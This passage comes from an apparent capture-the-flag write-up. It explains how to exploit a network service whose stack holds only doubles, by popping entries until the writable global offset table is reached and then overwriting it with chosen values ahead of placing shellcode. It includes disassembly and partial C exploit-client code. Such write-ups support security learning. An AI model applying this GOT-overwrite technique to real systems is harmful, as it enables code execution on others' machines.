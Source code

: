 <pre>
<span class="Statement">.got.plt</span>:<span class="Constant">0060301</span><span class="Constant">8</span> <span class="Identifier">off_603018</span>      <span class="Identifier">dq</span> <span class="Identifier">offset</span> <span class="Identifier">free</span>          <span class="Comment">; DATA XREF: _freer</span>
<span class="Statement">.got.plt</span>:<span class="Constant">00603020</span> <span class="Identifier">off_603020</span>      <span class="Identifier">dq</span> <span class="Identifier">offset</span> <span class="Identifier">recv</span>          <span class="Comment">; DATA XREF: _recvr</span>
<span class="Statement">.got.plt</span>:<span class="Constant">0060302</span><span class="Constant">8</span> <span class="Identifier">off_603028</span>      <span class="Identifier">dq</span> <span class="Identifier">offset</span> <span class="Identifier">strncpy</span>       <span class="Comment">; DATA XREF: _strncpyr</span>
<span class="Statement">.got.plt</span>:<span class="Constant">00603030</span> <span class="Identifier">off_603030</span>      <span class="Identifier">dq</span> <span class="Identifier">offset</span> <span class="Identifier">setsockopt</span>    <span class="Comment">; DATA XREF: _setsockoptr</span>
...
</pre>

The global offset table! And it's readable/writeable!

If we pop a couple dozen times, then push a value of our choice, we can overwrite any entry&mdash;or all entries&mdash;with any value we want!

That just leaves one last step: where to put the shellcode?

<h3>Aside: floating point</h3>

One gotcha that's probably uninteresting, but is also the reason that this level took me significantly longer than it should have&mdash;the only thing you can push/pop on the application's stack is 64-bit double values! They're read using "%lg", but if I print stuff out using <tt>printf("%lg", address)</tt>, it would truncate the numbers! Boo!

After some googling, I discovered that you had to raise printf's precision a whole bunch to reproduce the full 64-bit value as a decimal number. I decided that 127 decimal places was more than enough (probably like 5x too much, but I don't even care) to get a good result, so I used this to convert a series of 8 bytes to a unique double:

<pre>
  sprintf(buf, <span class="Constant">&quot;</span><span class="Special">%.127lg</span><span class="Special">\n</span><span class="Constant">&quot;</span>, d);                                
</pre>

I incorporated that into my push() function:

<pre>
<span class="Comment">/*</span><span class="Comment"> This pushes an 8-byte value onto the server's stack. </span><span class="Comment">*/</span>
<span class="Type">void</span> do_push(<span class="Type">int</span> s, <span class="Type">char</span> *value)
{
  <span class="Type">char</span> buf[<span class="Constant">1024</span>];
  <span class="Type">double</span> d;

  <span class="Comment">/*</span><span class="Comment"> Convert the value to a double </span><span class="Comment">*/</span>
  memcpy(&amp;d, value, <span class="Constant">8</span>);
